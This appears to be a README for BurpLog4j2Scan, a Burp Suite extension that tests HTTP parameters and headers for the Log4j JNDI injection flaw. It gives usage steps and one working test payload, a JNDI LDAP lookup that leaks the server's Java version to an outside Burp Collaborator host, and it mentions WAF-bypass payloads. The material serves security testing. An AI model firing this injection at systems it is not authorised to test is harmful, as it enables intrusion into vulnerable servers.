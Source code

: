 # BurpLog4j2Scan (basing on tangxiaofeng7)

### How to use
1. Load BurpLog4j2Scan.jar through Extender
![img.png](images/1.png)

2. Right click the request which you want to check and then follow Extensions >Send to BurpLog4j2Scan
![img.png](images/2.png)
3. Be patient and wait for the result, or maybe you can grab a coffee. The scan time could be around 10 minutes for complicated request.
4. Find the result in BurpLog4j2Scan Tab. If vuln exists, you can check the injected request and then further investigate on it.
![img.png](images/3.png)

### How to investigate:

For example, the tool told us header User-Agent can lead to log4j vul.
![img.png](images/4.png)

We can then use below payload to test it.
${jndi:ldap://${sys:java.version}.urlFromBurpCollaborator}
![img.png](images/5.png)

And then we can get the dns result which contains the java version from Burp Collaborator Client which means the log4j vuln exists.
![img.png](images/6.png)

### What it supports:
1. Get parameter check:
![img.png](images/7.png)

2. Post parameter check:
![img.png](images/8.png)

3. Json parameter check:

![img.png](images/9.png)

4. Header check(First check original header, and then add some guess headers for further check )
![img.png](images/10.png)

### Features:
1. Cover checking on get,post,json,header
2. Add some bypass waf payloads
3. Accurate detection, and can investigate the detail clearly after vuln has been found.


